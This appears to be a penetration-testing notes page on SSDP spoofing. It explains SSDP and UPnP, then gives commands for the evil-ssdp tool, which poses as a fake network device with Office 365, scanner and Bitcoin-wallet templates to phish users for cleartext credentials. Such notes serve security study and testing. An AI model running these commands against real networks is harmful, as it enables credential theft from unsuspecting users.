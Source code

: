 # ⭕ SSDP Spoofing

## SSDP

SSDP or Simple Service Discovery Protocol is a network protocol designed for advertisement and discovery of network services. It can work without any DHCP or DNS Configuration. It was designed to be used in residential or small office environments. It uses UDP as the underlying transport protocol on port 1900. It uses the HTTP method NOTIFY to announce the establishment or withdrawal of services to a multicast group. It is the basis of the discovery protocol UPnP.

## UPnP

UPnP or Universal Plug and Play is a set of networking protocols that allows networked devices, such as personal computers, printers, Internet gateways, Wi-Fi access points, and mobile devices to discover each other’s availability on the network and establish network services for communications, data sharing, and entertainment. The UPnP architecture supports zero-configuration networking. A UPnP compatible device from any vendor can dynamically join a network, obtain an IP address, announce its name, advertise or convey its capabilities upon request, and learn about the presence and capabilities of other devices.

## Evil SSDP

{% embed url="https://github.com/initstring/evil-ssdp" %}

A tool for setting up a fake SSDP device and phishing the user for clear text credentials:

{% hint style="warning" %}
The attacker has to be in the same network as the target systems.
{% endhint %}

```
git clone https://github.com/initstring/evil-ssdp.git
cd evil-ssdp/ls
python3 evil-ssdp.py --help
```

to run the attack :&#x20;

```
python3 evil-ssdp.py -i eth0
```

{% hint style="info" %}
#### The default template is office 365 login console, you can change the template with -t \[template name]
{% endhint %}

&#x20;to setup a fake scanner for phishing, use the scanner template:

```
python3 evil-ssdp.py eth0 --template scanner
```

if the user clicks on the scanner icon in windows explorer > networks, the default browser will open up a web page and ask for credentials in order to connect to the device:

![](<../../.gitbook/assets/image (17).png>)

if the user enters the credentials, EvilSSDP will grab and show them

![](<../../.gitbook/assets/image (11).png>)

## Other templates

### Office 365

```
python3 evil_ssdp.py eth0 -t office365
```

![](../../.gitbook/assets/image.png)

### Bitcoin Wallet

```
python3 evil_ssdp.py eth0 -t bitcoin -b
```

![](<../../.gitbook/assets/image (5).png>)

check the repository for other available templates or use your own template and xml description file.
